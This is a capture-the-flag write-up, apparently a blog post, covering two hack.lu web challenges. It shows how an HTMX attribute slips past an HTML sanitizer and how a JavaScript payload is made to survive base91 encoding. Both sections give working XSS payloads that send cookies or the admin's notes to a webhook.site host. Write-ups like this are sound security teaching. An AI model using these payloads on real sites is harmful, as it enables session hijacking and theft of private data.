 ```yaml
---
layout: post
title: "hack.lu web challs"
---
```


# awesomenotes1
The server has a filter for html:
```
let safe = ammonia::Builder::new()
    .tags(hashset!["h1", "p", "div"])
    .add_generic_attribute_prefixes(&["hx-"])
    .clean(&body)
    .to_string();
```

Seems like we can use HTMX attributes, which start with `hx`. `hx-on::load` fires whenever the element loads and allows JS execution:

```
<h1 hx-on::load="new Image().src='https://webhook.site/5dd7dcdd-930d-4bfe-8384-9115bcd513c9/'+document.cookie">pwned</h1>
```

This reveals the flag: `flag{C3r34l_1s_s0up_l1k3_1f_4gr33}`.

# based_encoding

The server allows us to create notes of arbitrary strings, but they get encoded into base91 format (weird).

```
@app.route("/create", methods=["GET", "POST"])
def create():
    if not session:
        flash("Please log in")
        return redirect("/login")
    if request.method == "GET":
        return render_template("create.html", logged_out=False)
    elif request.method == "POST":
        if not request.form["text"]:
            return "Missing text"
        text = request.form["text"]
        if len(text) > 1000:
            flash("Too long!")
            return redirect("/create")
        encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
        encoding_id = create_encoding(session["username"], encoded)
        
        return redirect(f"/e/{encoding_id}")
```

So we can get XSS if we can craft a payload that uses the allowed characters in the base91 format. Specifically, we need to find a string `x` such that `based91.encode(x)` results in a "useful" XSS. In this case, "useful" means "leaks the admin's notes". Note that if the provided string is in hex format, it will be converted to raw bytes.

The exploit will 1) open a new tab to `/`, to retrieve the links to all the admin's notes, and 2) for each link, fetch its contents and send it to a webhook. There are a few restrictions though: you can't have spaces, periods, or dashes (all are not valid base91).

For spaces, you can just use comments like `/**/`. For the literal period and dash characters, you can use `String["fromCharCode"](0x2e)` and `String["fromCharCode"](0x2d)`, respectively (these are needed for the webhook URL). Finally, to access object fields (like `window.open`), you can just use object key syntax: `window['open'](...)`.

The final exploit is here (before being decoded):
```
<script>
let/**/wh="https://webhook"+String["fromCharCode"](0x2e)+"site/5dd7dcdd"+String["fromCharCode"](0x2d)+"930d"+String["fromCharCode"](0x2d)+"4bfe"+String["fromCharCode"](0x2d)+"8384"+String["fromCharCode"](0x2d)+"9115bcd513c9/";let/**/w=window["open"]("/");w["onload"]=()=>{let/**/l=w["document"]["getElementsByTagName"]("a");for(let/**/link/**/of/**/l){ fetch(link["href"])["then"](x=>x["text"]())["then"](x=>{new/**/Image()["src"]=wh+btoa(x)}) }}
</script>AAAAAAAA
```

Flag: `flag{bas3d_enc0dings_str1p_off_ur_sk1n}`

